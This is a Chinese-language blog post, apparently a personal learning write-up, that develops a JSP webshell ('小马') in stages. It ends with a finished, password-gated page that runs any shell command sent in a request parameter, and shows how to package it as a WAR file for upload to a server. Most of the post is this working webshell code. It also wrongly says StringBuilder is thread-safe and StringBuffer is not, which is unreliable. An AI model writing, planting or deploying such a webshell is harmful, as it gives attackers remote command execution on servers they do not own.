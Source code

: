 ```yaml
---
title: jsp小马实践
date: 2022-01-19 10:21:31
tags:
      - web
      - java
      - java木马
categoties: web
---
```


经过javaWeb的学习,现在开始尝试编写jsp小马

先从最简单的原理开始

```jsp

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%

try {
    String cmd = request.getParameter("cmd");
    out.print(Runtime.getRuntime().exec(cmd));
}catch (Exception e){
    e.printStackTrace();
}
%>

```

成功打开记事本

![image-20220119153656574](https://gitee.com/blue_satchel/images/raw/master/image-20220119153656574.png)

上面的代码存在诸多不足,比如只能显示单行输出等

接下来开始解决只能显示单行输出的命令的问题

Runtime.getRuntime().exec(c)返回的是一个Process对象类型的值

查看Process源代码,发现其返回的是一个iutputStream,正好可以用inputStream接收

![image-20220119154927926](https://gitee.com/blue_satchel/images/raw/master/image-20220119154927926.png)



解决办法是利用StringBuilder或者StringBuffer中的append方法和JAVA io流,利用inputStream获取字节流到BufferReader转换成字符流,再通过Append方法写入到要输出的字符串中

关于StringBuilder和StringBuffer,StringBuilder是线程安全的,编辑的时候会上锁,但是这里为了性能,选择线程不安全的StringBuffer更好

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.BufferedWriter" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String cmd = request.getParameter("cmd");

    StringBuffer res=new StringBuffer();
    try{
        Process p=Runtime.getRuntime().exec(cmd);
        InputStream inputStream=p.getInputStream();
        InputStreamReader inputStreamReader=new InputStreamReader(inputStream);
        BufferedReader bufferedReader=new BufferedReader(inputStreamReader);
        String len;
        while((len=bufferedReader.readLine())!=null){
            res.append(len+"\n");
        }
    }catch (Exception e){
        res.append(e.getMessage());
    }
    out.print(res.toString());
%>

```

改进后可以执行命令并抛出错误信息,但是windows下很多命令无法执行..........

![image-20220119160519025](https://gitee.com/blue_satchel/images/raw/master/image-20220119160519025.png)

参考了这篇龙龙姐推荐的文章https://www.cnblogs.com/mingforyou/p/3551199.html

明白了<label style="background:yellow">windows下面要把cmd中的命令当做参数去运行cmd</label>

比如`dir`,就写成`cmd /C dir`

![image-20220119163716240](https://gitee.com/blue_satchel/images/raw/master/image-20220119163716240.png)

接下来将代码做简单的修改和功能的封装,让其看起来简短美观

完成!!!!

##### 成品

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" import="java.io.*" %>
<%!public String execute(String cmd)
    {
        StringBuffer res = new StringBuffer();
        try {
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            String len;
            while ((len = bufferedReader.readLine()) != null) {
                res.append(len + "\n");
            }
        } catch (Exception e) {
            res.append(e.getMessage());
        }
        return res.toString();
    }
%>
<%
    if("password".equals(request.getParameter("pwd"))&&request.getParameter("cmd")!=null){
        out.println("<pre>"+execute(request.getParameter("cmd"))+"</pre>");
    }else{
        out.print("<h2>你让我执行什么啊????</h2>");
    }
%>

```

windows下测试:

![image-20220119170718703](https://gitee.com/blue_satchel/images/raw/master/image-20220119170718703.png)

linux下测试:

首先通过jar命令打包jsp马为war

`jar cvf test.war .\horse.jsp .`

第一个参数为打包后的war包名称, 第二个参数为要打包的文件路径   第三个参数表示要输出的目录,用`.`表示输出到当前目录

上传war

打开对应路径

输入对应参数

![image-20220119185016439](https://gitee.com/blue_satchel/images/raw/master/image-20220119185016439.png)



